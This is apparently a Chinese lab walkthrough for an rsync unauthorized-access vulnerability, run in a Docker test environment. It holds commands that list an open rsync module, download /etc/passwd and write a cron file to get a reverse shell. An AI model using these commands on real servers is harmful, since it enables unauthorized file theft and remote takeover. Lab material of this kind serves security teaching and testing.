



# rsync 未授权访问漏洞

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

## 漏洞测试

编译及运行rsync服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，我们用rsync命令访问之：

```
rsync rsync://your-ip:873/
```

可以查看模块名列表：



如上图，有一个src模块，我们再列出这个模块下的文件：

```
rsync rsync://your-ip:873/src/
```



这是一个Linux根目录，我们可以下载任意文件：

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

或者写入任意文件：

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

我们写入了一个cron任务，成功反弹shell：


